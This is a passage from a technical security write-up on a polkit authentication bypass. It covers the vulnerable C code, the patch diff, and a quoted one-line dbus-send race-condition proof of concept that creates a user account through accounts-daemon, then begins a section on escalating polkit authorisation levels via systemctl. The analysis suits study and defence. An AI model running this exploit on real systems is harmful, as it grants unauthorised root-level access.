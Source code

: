 ``` c
  if (out_pid)
    *out_pid = data.pid;
  ret = TRUE;
 out:
  // [...]
  return ret;
}
```

However, before the patch, even if an error occurred during the dbus method calls, `polkitd` would **still proceed and return `TRUE` to the caller**. This meant that authentication could continue using **unverified or uninitialized UID data**.

``` diff
@@ -435,6 +435,9 @@ polkit_system_bus_name_get_creds_sync (PolkitSystemBusName           *system_bus
   while (!((data.retrieved_uid && data.retrieved_pid) || data.caught_error))
     g_main_context_iteration (tmp_context, TRUE);
 
-  if (data.caught_error)
-    goto out;
-
   if (out_uid)
     *out_uid = data.uid;
   if (out_pid)
```

If the uninitialized UID happens to **be 0**, the call to `polkit_unix_user_new()` will construct a user object **representing root**, allowing the authentication to **pass without proper validation**.

The following PoC, as demonstrated in the GitHub Security Lab blog post, exploits a race condition. It sends a request to `accounts-daemon` using `dbus-send`, and then kills the process just after the dbus message is dispatched but before the `dbus-daemon` has time to resolve and respond to the `GetConnectionUnixUser` request. This causes an error in the credential lookup process — but prior to the patch, `polkitd` would ignore the error and proceed, **leaving the UID uninitialized**.

``` bash
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1 & sleep 0.008s ; kill $!
```

## 5. Tricks

### 5.1. Trick 1 - Abuse Rule Limitations

Could a remote client leverage a local session to send a request? If so, it would **allow the authentication level to be escalated from `<allow_any>` to `<allow_active>`**, potentially granting elevated permissions.

**The answer is: yes** — and you can achieve this using `systemctl`. However, this requires that **an active local session already exists on the system**.
